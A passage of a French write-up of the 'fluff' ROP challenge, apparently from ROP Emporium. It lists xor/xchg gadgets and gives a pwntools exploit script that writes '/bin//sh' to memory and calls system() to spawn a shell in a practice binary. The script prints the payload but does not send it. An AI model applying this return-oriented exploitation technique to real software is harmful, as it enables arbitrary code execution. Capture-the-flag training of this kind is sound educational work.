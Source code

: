 Ce gadget se sert de `xchg` qui va simplement échanger deux valeurs.
Pour cela nous allons devoir modifier `r11` :

~~~bash
0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
~~~
Le premier gadget met `r11` a zéro, le deuxième nous permet de copier la valeur de `r12` dans `r11`. 

> Toujours pareil à précédemment 

Néanmoins, il faut trouver un moyen de mettre des données dans `r12` : 

~~~bash
0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
~~~

Voici notre exploit, obtenus à partir de ces éléments :

~~~python
#!/usr/bin/env python

from pwn import * 

junk = "A"*40
pop_rdi = p64(0x4008c3)
data_addr = p64(0x601050)
system = p64(0x4005e0)

binsh = "/bin//sh"
mov_qword = p64(0x40084e)
xor_r11_r11 = p64(0x400822)
pop_r12 = p64(0x400832)
xor_r11_r12 = p64(0x40082f)
xchg_r11_r10 = p64(0x400840)

p = process("./fluff")

payload = junk
payload += xor_r11_r11
payload += p64(0) 
payload += pop_r12 
payload += data_addr 
payload += xor_r11_r12 
payload += p64(0) 
payload += xchg_r11_r10 
payload += p64(0) 

payload += xor_r11_r11 
payload += p64(0) 
payload += pop_r12 
payload += binsh
payload += xor_r11_r12
payload += p64(0) 

payload += mov_qword
payload += p64(0) 
payload += p64(0) 
payload += pop_rdi 
payload += data_addr
payload += system


print payload 

info("Send magic bytes in binary")
~~~